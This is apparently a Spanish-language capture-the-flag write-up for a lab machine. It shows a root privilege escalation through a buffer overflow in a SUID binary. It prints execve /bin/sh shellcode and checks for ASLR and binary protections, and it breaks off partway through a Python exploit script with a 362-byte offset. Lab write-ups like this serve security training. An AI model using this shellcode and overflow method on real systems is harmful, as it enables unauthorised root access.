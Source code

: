 SHELLCODE PARA LINUX x86 (32BITS) Buscamos x `Jean Pascall` para lanzarse una `/bin/sh`
http://shell-storm.org/shellcode/files/shellcode-811.php					====== 			/bin/sh
```bash
char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   			"\x68\x68\x2f\x62\x69\x6e\x89"
                   			"\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   			"\xcd\x80\x31\xc0\x40\xcd\x80";
```
Como veiamos que el binario `"chal"` es `SUID y SUIG` y como nosotros podemos ejecutarlo, con que nos lance una shell ya lo seriamos `root`
```bash
thrasivoulos@Sneaky:/$ which chal | xargs ls -l
-rwsrwsr-x 1 root root 7301 May  4  2017 /usr/local/bin/chal
```
PERO y si la maquina tiene habilitada la opcion ARSL(que aletoriza algunas de las direciones de la memoria)
Forma de Comprobarlo:
Nos fijamos en el output de los comandos aqui abajo y repetimos a ver si son estaticos o dinamicos.
```bash
thrasivoulos@Sneaky:/usr/bin$ which chal | xargs ldd
        linux-gate.so.1 =>  (0xb7ffe000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e44000)
        /lib/ld-linux.so.2 (0x80000000)
thrasivoulos@Sneaky:/usr/bin$ which chal | xargs ldd
        linux-gate.so.1 =>  (0xb7ffe000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e44000)
        /lib/ld-linux.so.2 (0x80000000)
thrasivoulos@Sneaky:/usr/bin$ which chal | xargs ldd
        linux-gate.so.1 =>  (0xb7ffe000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e44000)
        /lib/ld-linux.so.2 (0x80000000)
```
Se ve claro que son ESTATICOS  por lo que PERFECTO.
Otra Forma:

`Siempre que devuelva un 0 es que el asrl no esta activado.`
`Siempre que devuelva un 1 es que el asrl si esta activado.`

```bash		
thrasivoulos@Sneaky:/usr/bin$ "cat /proc/sys/kernel/randomize_va_space "
0
```
No esta Activado
Ahora a NIVEL DE PROTECCIONES DEL BINARIO ¿HAY ALGUNA PROTECCION?
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
Nada no tiene nada activado, nos vamos a un directorio en la maquina victima que tengamos escritura y procedemos con nuestro script en python:
```python
exploit.py

#Para poner la direccion del EIP en Litle Indian
from struct import pack


def bufferOverFlow():

        offset = 362    # el numero hasta antes de sobrescribir el EIP
        junk = "A"*offset # basura
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```